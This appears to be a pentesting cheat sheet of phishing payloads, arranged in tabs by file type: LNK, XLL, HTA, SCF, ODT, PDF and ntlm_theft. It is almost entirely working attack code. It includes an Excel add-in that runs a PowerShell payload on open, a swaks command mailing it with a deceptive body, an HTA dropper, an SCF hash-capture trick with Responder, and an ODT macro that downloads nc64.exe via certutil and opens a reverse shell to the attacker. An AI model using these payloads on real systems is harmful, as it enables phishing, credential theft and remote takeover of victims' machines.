 ```yaml
---
title: "Phishing"
date: 2024-6-26
tags: ["Phishing", "Social Engineering", "Responder", "Phishing Campaigns", "Email", "Xll", "Excel", "Hta", "Shortcut", "Windows", "Odt", "Libre", "Vba", "Ntlm_Theft", "Pdf", "Ntlm"]
---
```


{{< tab set1 tab1 active >}}lnk{{< /tab >}}
{{< tab set1 tab2 >}}xll{{< /tab >}}
{{< tab set1 tab3 >}}hta{{< /tab >}}
{{< tab set1 tab4 >}}scf{{< /tab >}}
{{< tab set1 tab5 >}}odt{{< /tab >}}
{{< tab set1 tab6 >}}pdf{{< /tab >}}
{{< tab set1 tab7 >}}others{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
$obj = New-Object -ComObject WScript.Shell
```

```console
$link = $obj.CreateShortcut("C:\ProgramData\Calculator.lnk")
```

```console
$link.TargetPath = "C:\ProgramData\rev.exe"
```

```console
$link.Save()
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### shell.c

```console
#include <windows.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void); 

void __cdecl xlAutoOpen() {
    // Triggers when Excel opens
    WinExec("<POWERSHELL_3_BASE64>", 1); // Replace your payload
}

BOOL APIENTRY DllMain( HMODULE hModule,
                    DWORD  ul_reason_for_call,
                    LPVOID lpReserved
                    )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

#### 1. Compile shell.c in Linux

```console
x86_64-w64-mingw32-gcc -fPIC -shared -o shell.xll shell.c -luser32
```

#### 2. Send email with the malicious xll file

```console
swaks --to '<VICTIM>@<DOMAIN>' --from 'attacker@<DOMAIN>' --server '<DOMAIN>' --header "This is not a malicious file" --body "This is not a malicious file" --attach '@shell.xll'
```

<small>*Ref: [revshells.com](https://www.revshells.com/)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

#### 1. Start a Local SMB Server

```console
# In our local Linux machine
impacket-smbserver -smb2support share .
```

#### 2. Create a Malicious hta File in local Linux SMB share

```console
<html>
    <head>
        <HTA:APPLICATION ID="shell">
        <script language="javascript">
            var c = "<POWERSHELL_3_BASE64>";  
            new ActiveXObject('WScript.Shell').Run(c, 0, true); 
        </script>
    </head>
    <body>
        <script>self.close();</script>
    </body>
</html>
```

#### 3. Create a shortcut file in target Windows

```console
# In target Windows machine (powershell)
$url = "file://<LOCAL_IP>/share/shell.hta"
```

```console
$shortcutPath = "C:\ProgramData\shell.url"
```

```console
$shortcutContent = "[InternetShortcut]`r`nURL=$url"
```

```console
Set-Content -Path $shortcutPath -Value $shortcutContent
```

<small>*Ref: [revshells.com](https://www.revshells.com/)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

### If any interaction from target to smb share

#### 1. Start Responder

```console
# In our local Linux machine
sudo responder -I tun0
```

#### 2. Create a malicious shortcut

```console
[Shell]
Command=2

IconFile=\\<LOCAL_IP>\icon
```

#### 3. Upload the malicious shortcut

```console
# In our local Linux machine
smbclient -N \\\\<TARGET>\\share\\
```

```console
mput evil.scf
```

{{< /tabcontent >}}
{{< tabcontent set1 tab5 >}}

```console
+--------------------------------------------------------+
| 1. "Tools" > "Macros" > "Organize Macros" > "Basic..." |
| 2. "Untitled 1" > "Standard" > "New"                   |
| 3. "Paste the code below"                              |
+--------------------------------------------------------+
```

<br>

```console
Sub OnLoad
    shell("cmd /c certutil -urlcache -split -f http://<LOCAL_IP>/nc64.exe C:\programdata\nc64.exe && C:\programdata\nc64.exe -e cmd <LOCAL_IP> <LOCAL_PORT>")
End Sub
```

<br>

```console
+-----------------------------------------------------------+
| 4. "Tools" > "Organize Macros" > "Basic..." > "Assign..." |
| 5. "Events" > "Open Document" > "OK"                      |
| 6. "SAVE"                                                 |
+-----------------------------------------------------------+
```

{{< /tabcontent >}}
{{< tabcontent set1 tab6 >}}

```console
msfconsole -q
```

```console
search badpdf
```

```console
set filename evil.pdf
```

```console
set lhost <LOCAL_IP>
```

```console
exploit
```

{{< /tabcontent >}}
{{< tabcontent set1 tab7 >}}

```console
python3 ntlm_theft.py -g all -s <LOCAL_IP> -f test
```

<small>*Ref: [ntlm_theft](https://github.com/Greenwolf/ntlm_theft)*</small>

{{< /tabcontent >}}
